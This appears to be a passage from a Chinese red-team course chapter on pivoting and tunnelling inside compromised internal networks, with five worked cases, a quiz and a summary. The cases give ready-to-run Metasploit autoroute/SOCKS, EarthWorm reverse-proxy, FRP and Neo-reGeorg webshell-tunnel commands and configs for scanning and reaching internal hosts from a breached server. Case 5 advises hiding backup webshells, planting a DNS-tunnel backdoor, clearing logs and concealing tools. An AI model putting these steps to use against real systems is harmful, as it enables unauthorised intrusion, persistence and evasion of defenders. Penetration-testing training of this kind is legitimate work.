通过Web漏洞拿到了一台服务器的Meterpreter，
这台服务器在内网，
想扫一下内网还有哪些机器、
开了什么服务。

**操作步骤：**

**第一步：查看内网IP**
```bash
meterpreter > ipconfig
# 发现有一个内网网卡：192.168.10.100/24
```

**第二步：添加路由**
```bash
meterpreter > run autoroute -s 192.168.10.0/24
meterpreter > run autoroute -p
# 确认路由添加成功
```

**第三步：后台运行Meterpreter**
```bash
meterpreter > background
```

**第四步：启动Socks代理**
```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run
```

**第五步：用proxychains扫内网**
```bash
# 配置proxychains
echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf

# 扫描内网存活主机
proxychains nmap -sT -Pn 192.168.10.0/24 -p 80,445,3389,22

# 发现了几台机器：
# 192.168.10.10 - 开了80和445
# 192.168.10.20 - 开了3389
# 192.168.10.30 - 开了22
```

**第六步：进一步探测**
```bash
# 访问192.168.10.10的Web
proxychains curl http://192.168.10.10

# 用浏览器配置代理，看内网网站
# ...
```

**总结：**
- MSF + autoroute + Socks代理
- 不用上传额外工具
- 适合快速探测内网
- 速度一般，适合小范围扫描

---

### 案例2：EW反向代理访问多层内网

**场景：**
护网行动中，
拿下了边界服务器，
但是目标核心区域在更深层的内网，
中间隔了好几层网络。
边界服务器能访问办公区，
办公区能访问核心区。
我们需要访问核心区的机器。

**网络拓扑：**
```
我们的VPS（公网）
    ↑
    | EW反向连接
边界服务器（192.168.1.0/24）
    ↑
    | EW正向代理
办公区服务器（192.168.2.0/24）
    ↑
    | EW正向代理
核心区服务器（192.168.3.0/24）
```

**操作步骤：**

**第一层：边界服务器 → 我们的VPS**

VPS上：
```bash
./ew -s rcsocks -l 1080 -e 8888
```

边界服务器上：
```bash
ew.exe -s rssocks -d VPS的IP -e 8888
```

现在我们配置代理 `VPS:1080`
就能访问192.168.1.0/24了。

**第二层：办公区 → 边界服务器**

在办公区的一台机器上运行：
```bash
ew.exe -s ssocksd -l 9999
```

然后通过第一层的代理，
我们能连到办公区机器的9999端口。

**第三层：核心区 → 办公区**

类似的，在核心区机器上跑Socks服务。

**多级连接：**
EW支持多级级联，
可以把多个跳板串起来。
具体命令可以查EW的文档。

**总结：**
- 多层内网需要多级代理
- EW支持级联，可以串很多层
- 层数越多速度越慢
- 要管理好每一层的连接

---

### 案例3：FRP搭建长期穿透环境

**场景：**
做渗透测试项目，
需要长期维持对内网的访问，
要求稳定、功能全。
选择用FRP来搭建。

**操作步骤：**

**第一步：VPS上部署frps**
```ini
# frps.ini
[common]
bind_port = 7000
# token验证
token = your_secret_token
# dashboard
dashboard_port = 7500
dashboard_user = admin
dashboard_pwd = your_password
# 日志
log_file = ./frps.log
log_level = info
```

启动：
```bash
./frps -c frps.ini &
```

**第二步：内网跳板机部署frpc**
```ini
# frpc.ini
[common]
server_addr = VPS的IP
server_port = 7000
token = your_secret_token

# Socks5代理
[socks5]
type = tcp
remote_port = 1080
plugin = socks5

# 转发SSH
[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6000

# 转发RDP
[rdp]
type = tcp
local_ip = 127.0.0.1
local_port = 3389
remote_port = 6001
```

启动：
```bash
./frpc -c frpc.ini
```

**第三步：使用**
- Socks代理：`VPS:1080`
- SSH：`ssh -p 6000 user@VPS`
- RDP：`VPS:6001`

**第四步：配置开机自启**
为了长期稳定运行，
配置成系统服务，
开机自动启动。

**总结：**
- FRP适合长期稳定使用
- 功能丰富，Socks、端口转发都支持
- 有token验证、dashboard等功能
- 配置成服务，开机自启

---

### 案例4：只有Webshell时用reGeorg

**场景：**
通过SQL注入拿到了一个网站的Webshell，
但是服务器杀软很严，
上传exe就被杀，
而且只能通过80端口通信。
想访问内网。

**操作步骤：**

**第一步：生成reGeorg的Webshell**
```bash
python neoreg.py generate -k mypassword123
# 生成了 tunnel.php
```

**第二步：上传tunnel.php**
通过Webshell把tunnel.php
传到网站目录里，
比如 `/uploads/tunnel.php`。

访问一下确认能正常访问：
```
http://www.target.com/uploads/tunnel.php
```
应该会显示 "Georg says, 'All seems fine'"

**第三步：本地连接**
```bash
python neoreg.py -k mypassword123 -u http://www.target.com/uploads/tunnel.php
```

成功后输出：
```
+---+
  |  Tunnel Status  Established
  |  Socks5 Port    1080
  |  Target         http://www.target.com/uploads/tunnel.php
+---+
```

**第四步：使用代理**
```bash
# 配置proxychains
# 然后扫内网
proxychains nmap -sT -Pn 10.0.0.0/24 -p 80,445

# 访问内网Web
proxychains curl http://10.0.0.5
```

**总结：**
- 只有Webshell也能搭代理
- 流量走HTTP，比较隐蔽
- 速度会慢一些
- 适合杀软严、只能HTTP的情况

---

### 案例5：护网行动中的代理策略

**场景：**
护网行动中，
需要稳定、隐蔽、可靠的
内网访问通道。
不能只有一条路，
要有备份方案。

**整体策略：**

**第一层：主要通道 - FRP Socks5**
- 用FRP搭建稳定的Socks5代理
- 走HTTPS协议，加密传输
- 作为主要的内网访问通道
- 长期稳定运行

**第二层：备用通道 - 多个Webshell代理**
- 在不同网站、不同路径
  藏几个reGeorg的Webshell
- 作为备用通道
- 主通道挂了还有这个

**第三层：应急通道 - DNS隧道**
- 部署一个DNS隧道的后门
- 极端情况下用
- 作为最后的保险

**第四层：端口转发**
- 关键服务器的端口单独转发
- SSH、RDP、数据库等
- 方便直接连接

**注意事项：**

1. **不要所有代理用同一个IP**
   - 不同的代理通道走不同的出口
   - 一个被封了还有其他的

2. **注意流量特征**
   - 不要一次性扫大网段
   - 扫描要限速
   - 模拟正常访问的行为

3. **定期检查通道是否可用**
   - 每天检查一下各个代理是否还通
   - 挂了及时修复

4. **注意隐藏痕迹**
   - 代理工具的文件要藏好
   - 日志要清理
   - 尽量用系统自带的工具

5. **不要在跳板机上留太多东西**
   - 越少越安全
   - 用完能清理就清理

**总结：**
- 多条通道，互为备份
- 不同协议，增加存活率
- 注意隐蔽，不要太嚣张
- 定期维护，确保可用

---

## ✏️ 课后习题

### 一、选择题（12道）

1. 以下哪个不是常见的代理工具？
   A. EarthWorm
   B. FRP
   C. Nmap
   D. Ngrok

2. Socks代理工作在OSI模型的哪一层？
   A. 应用层
   B. 传输层
   C. 网络层
   D. 数据链路层

3. 正向代理和反向代理的主要区别是？
   A. 速度不一样
   B. 谁主动发起连接
   C. 协议不一样
   D. 价格不一样

4. MSF中，用来添加路由的模块是？
   A. portfwd
   B. autoroute
   C. socks_proxy
   D. mimikatz

5. MSF portfwd命令中，-l 参数表示什么？
   A. 目标IP
   B. 目标端口
   C. 本地监听端口
   D. 协议类型

6. EarthWorm中，反向Socks服务端模式是？
   A. ssocksd
   B. rssocks
   C. rcsocks
   D. lcx_tran

7. FRP中，服务端程序叫什么？
   A. frpc
   B. frps
   C. frpd
   D. frp

8. reGeorg是用来做什么的？
   A. 端口扫描
   B. Webshell代理
   C. 密码爆破
   D. 漏洞利用

9. 以下哪个协议隧道速度最慢？
   A. TCP代理
   B. HTTP代理
   C. ICMP隧道
   D. DNS隧道

10. Proxifier主要用于什么系统？
    A. Linux
    B. Windows
    C. Mac
    D. Android

11. proxychains扫描端口时，建议用哪种扫描方式？
    A. -sS（SYN扫描）
    B. -sT（TCP连接扫描）
    C. -sU（UDP扫描）
    D. -sA（ACK扫描）

12. 以下关于多级代理的说法，错误的是？
    A. 可以访问更深层的内网
    B. 层数越多速度越快
    C. 管理更复杂
    D. 需要多个跳板机

### 二、填空题（5道）

1. MSF中，做端口转发的命令是 ______。

2. EarthWorm的正向Socks代理模式参数是 `-s ______`。

3. FRP的服务端程序叫 ______，客户端叫 ______。

4. Socks协议的两个主要版本是 Socks4 和 ______。

5. Linux下常用的命令行代理工具是 ______。

### 三、简答题（5道）

1. 什么是正向代理？什么是反向代理？它们有什么区别？
2. 端口转发和Socks代理有什么区别？分别在什么场景下使用？
3. 列举至少3种内网穿透/代理工具，并简述它们的特点。
4. 什么是DNS隧道？它的原理是什么？
5. Webshell代理有什么优缺点？适合什么场景？

### 四、实操题（3道）

1. 搭建一个测试环境，练习MSF的autoroute和portfwd。
2. 用EarthWorm或FRP搭建一个Socks5代理，并用浏览器通过代理访问网站。
3. 如果有条件，练习使用reGeorg搭建Webshell代理（在授权的测试环境中）。

**图51-7 内网代理与穿透工具生态全览图**

```mermaid
flowchart TD
    T[内网代理与穿透工具] --> M[MSF自带]
    T --> E[EarthWorm EW]
    T --> F[FRP]
    T --> N[Ngrok]
    T --> W[Webshell代理]
    T --> TN[协议隧道]
    T --> C[代理客户端]
    M --> M1[autoroute 路由]
    M --> M2[portfwd 端口转发]
    M --> M3[socks_proxy Socks5]
    E --> E1[ssocksd 正向Socks]
    E --> E2[rcsocks+rssocks 反向Socks]
    E --> E3[lcx_tran 端口转发]
    E --> E4[多级级联]
    F --> F1[TCP端口转发]
    F --> F2[Socks5代理]
    F --> F3[HTTP/HTTPS穿透]
    F --> F4[加密/token/dashboard]
    N --> N1[http 80端口穿透]
    N --> N2[tcp 22端口穿透]
    W --> W1[reGeorg/Neo-reGeorg<br/>PHP/ASPX/JSP]
    TN --> TN1[ICMP隧道: icmpsh/Ptunnel]
    TN --> TN2[DNS隧道: dnscat2/iodine]
    C --> C1[Proxifier Windows全局]
    C --> C2[proxychains Linux命令行]
    C --> C3[SwitchyOmega 浏览器]
```



---

## 📖 本章小结

::: tip 总结一下
这一章我们学习了
代理转发与内网穿透技术，
内容比较多，
也非常实用。

**重点回顾：**

1. **基础概念**
   - 正向代理 vs 反向代理
   - 端口转发 vs Socks代理
   - 什么时候需要内网代理

2. **MSF自带功能**
   - autoroute：MSF内部路由
   - portfwd：端口转发
   - socks_proxy：Socks代理

3. **EarthWorm（EW）**
   - 正向Socks代理（ssocksd）
   - 反向Socks代理（rcsocks + rssocks）
   - 端口转发
   - 多级级联

4. **FRP内网穿透**
   - frps（服务端）+ frpc（客户端）
   - TCP端口转发
   - Socks5代理
   - HTTP/HTTPS穿透
   - 功能丰富，适合长期使用

5. **Ngrok**
   - 超级简单
   - 不用自己有服务器
   - 适合快速演示

6. **客户端工具**
   - Proxifier（Windows）
   - proxychains（Linux）
   - 浏览器代理设置

7. **Webshell代理**
   - reGeorg / Neo-reGeorg
   - 只有Webshell也能搭代理
   - 流量走HTTP，比较隐蔽

8. **其他隧道**
   - ICMP隧道
   - DNS隧道
   - 特殊情况下的备选方案

9. **五个实战案例**
   - MSF Socks代理扫内网
   - EW多层代理
   - FRP长期穿透环境
   - reGeorg Webshell代理
   - 护网行动中的代理策略

代理和穿透技术
是内网渗透的基本功，
一定要动手实操，
才能真正掌握。

下一章我们来做
横向移动模块的总结，
然后进入域渗透的学习。

继续加油！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day056-senior-横向移动技术大全)
- [➡️ 下一章：---](/redteam/day058-senior-横向移动模块总结)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
